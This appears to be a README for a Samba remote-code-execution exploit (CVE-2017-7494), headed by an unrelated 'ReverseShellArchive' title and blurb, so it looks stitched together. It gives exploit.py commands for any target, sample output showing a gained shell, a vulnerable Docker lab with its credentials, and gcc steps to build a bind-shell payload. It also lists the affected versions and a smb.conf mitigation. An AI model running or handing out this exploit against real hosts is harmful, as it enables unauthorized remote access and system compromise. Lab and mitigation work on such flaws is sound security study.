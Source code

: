 # ReverseShellArchive

Reverse Shell Archive is a handy tool to quickly get needed reverse shell script, and to upgrade shells to fully interactive TTYs.
Supported scripts:
- BASH, PHP, PERL, PYTHON, RUBY, NETCAT, TELNET

### Example

(reverseshellsarchive.gif)

To properly run this exploit you will need a patched version of `impacket` python library and the other dependencies in requirements file. To install all of them, please run

```
pip install -r requirements.txt
```

If you run Python3, you need to run this software in a virtual environment. Please follow the steps:

```
pip install virtualenv
virtualenv -p /usr/bin/python2.7 venv # or wherever your python2.7 resides
source venv/bin/activate.sh
```

After that you can run it as the following:

```
./exploit.py -t <target> -e libbindshell-samba.so \
             -s <share> -r <location>/libbindshell-samba.so \
             -u <user> -p <password> -P 6699
```

For example, if you want to exploit the vulnerable environment with within this repository, run

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
```

And you will get the following output

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>
```

Exploit's arguments explained:

```
usage: exploit.py [-h] -t TARGET -e EXECUTABLE -s REMOTESHARE -r REMOTEPATH
                  [-u USER] [-p PASSWORD] [-P REMOTESHELLPORT]
```

* `-t` or `—target` - Set the remote host to attack.
* `-e` or `—executable` - Set the path on your **local system** where the lib that you want to load is located.
* `-s` or `—remoteshare` - Remote share where the file will be copied.
* `-r` or `—remotepath` - Where the file is located on the **remote system**.
* `-u` or `—user` - Username to log in with.
* `-p` or `—password` - Password to use to log in with.
* `-P` or `—remoteshellport` - If you are using a bind shell payload, connect to the payload after the attack is executed.

### Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have docker installed, just run

```
docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
       vulnerables/cve-2017-7494
```

If you want to access, use the following credentials.

* User: `sambacry`
* Password: `nosambanocry`



### Alternative payloads

You can find one example of binding shell payload for this exploit in `bindshell-samba.c` file. Change it as you may find necessary. After that to generate a new binary, use:

```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```

### Afftected software

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4

### Mitigation

Add the parameter:

```
nt pipe support = no
```

to the `[global]` section of your smb.conf and restart smbd. This prevents clients from accessing any named pipe endpoints. Note this can disable some expected functionality for Windows clients.

Also consider mounting the filesystem which is used by samba for its writable share using `noexec` option.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
